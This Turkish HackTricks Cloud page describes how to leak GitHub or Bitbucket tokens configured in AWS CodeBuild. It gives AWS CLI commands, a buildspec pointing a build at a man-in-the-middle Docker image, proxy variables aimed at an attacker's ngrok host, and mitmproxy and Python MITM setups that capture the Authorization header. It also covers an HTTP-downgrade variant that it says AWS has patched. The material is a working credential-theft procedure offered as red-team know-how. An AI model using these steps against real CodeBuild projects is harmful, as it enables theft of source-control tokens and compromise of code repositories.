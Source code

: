 # AWS Codebuild - Token Sızıntısı

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'ı **takip edin**.
* Hacking hilelerinizi [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek paylaşın.

</details>

## Github/Bitbucket Yapılandırılmış Tokenları Kurtarma

İlk olarak, sızdırabileceğiniz herhangi bir kaynak kimlik bilgisi yapılandırılıp yapılandırılmadığını kontrol edin:
```bash
aws codebuild list-source-credentials
```
### Docker İmajı Aracılığıyla

Eğer örneğin Github için kimlik doğrulamanın hesapta ayarlandığını bulursanız, projenin derlemesini çalıştırmak için Codebuild'in belirli bir docker imajını kullanarak bu erişimi (GH token veya OAuth token) **dışarıya çıkarabilirsiniz**.

Bu amaçla, yeni bir Codebuild projesi oluşturabilir veya mevcut bir projenin **ortamını değiştirerek Docker imajını ayarlayabilirsiniz**.

Kullanabileceğiniz Docker imajı [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm) adresinde bulunmaktadır. Bu çok temel bir Docker imajıdır ve **`https_proxy`**, **`http_proxy`** ve **`SSL_CERT_FILE`** ortam değişkenlerini ayarlar. Bu, **`https_proxy`** ve **`http_proxy`** ile belirtilen ana bilgisayarın çoğu trafiğini aramanıza ve **`SSL_CERT_FILE`** ile belirtilen SSL SERT'ine güvenmenize olanak sağlar.

1. **Kendi Docker MitM imajınızı oluşturun ve yükleyin**
* İpucu deposunun talimatlarını izleyerek proxy IP adresinizi ayarlayın ve SSL sertifikanızı ayarlayın ve **docker imajını oluşturun**.
* Metadata uç noktasına yapılan istekleri aramamak için **`http_proxy`** ayarlamayın.
* Proxy'yi kendi ana bilgisayarınıza ayarlamak için `ngrok tcp 4444` gibi **`ngrok`** kullanabilirsiniz.
* Docker imajınızı oluşturduktan sonra, **genel bir depoya** (Dockerhub, ECR...) yükleyin.
2. **Ortamı ayarlayın**
* Yeni bir Codebuild projesi oluşturun veya mevcut bir projenin ortamını **değiştirin**.
* Projeyi, **önceden oluşturulan Docker imajını** kullanacak şekilde ayarlayın.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

3. **Ana bilgisayarınızda MitM proxy'sini ayarlayın**

* Github deposunda belirtildiği gibi, şuna benzer bir şey kullanabilirsiniz:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Kullanılan **mitmproxy sürümü 9.0.1** idi, sürüm 10 ile bu işe yaramayabileceği bildirildi.
{% endhint %}

4. **Derlemeyi çalıştırın ve kimlik bilgilerini yakalayın**

*   Kimlik bilgilerini **Authorization** başlığında görebilirsiniz:

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Bu ayrıca aws cli ile şu şekilde de yapılabilir

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~HTTP protokolü aracılığıyla~~

{% hint style="success" %}
**Bu zafiyet, AWS tarafından 20 Şubat 2023 haftasında (sanırım Cuma günü) düzeltildi. Bu nedenle saldırgan artık bunu istismar edemez :)**
{% endhint %}

**CodeBuild üzerinde yükseltilmiş izinlere sahip bir saldırgan, yapılandırılmış Github/Bitbucket belirteci** veya izinler OAuth aracılığıyla yapılandırıldıysa, **kod erişimi için kullanılan geçici OAuth belirteci** sızdırabilir.

* Bir saldırgan, CodeBuild projesine kendi makinesine işaret eden **http\_proxy** ve **https\_proxy** çevresel değişkenlerini ekleyebilir (örneğin `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* Ardından, github deposunun URL'sini HTTPS yerine HTTP kullanacak şekilde değiştirin, örneğin: \*\*http://\*\*github.com/carlospolop-forks/TestActions
* Ardından, proxy değişkenleri (http\_proxy ve https\_proxy) tarafından işaretlenen bağlantı noktasında [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) adresindeki temel örneği çalıştırın.
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Son olarak, **Proje oluştur** üzerine tıklayın, **kimlik bilgileri** açık metin olarak (base64) mitm bağlantı noktasına gönderilecektir:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Şimdi bir saldırgan, token'ı kendi makinesinden kullanabilecek, sahip olduğu tüm ayrıcalıkları listeleyebilecek ve CodeBuild hizmetini doğrudan kullanmaktan daha kolay bir şekilde (kötüye) kullanabilecektir.
{% endhint %}

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahramana kadar AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
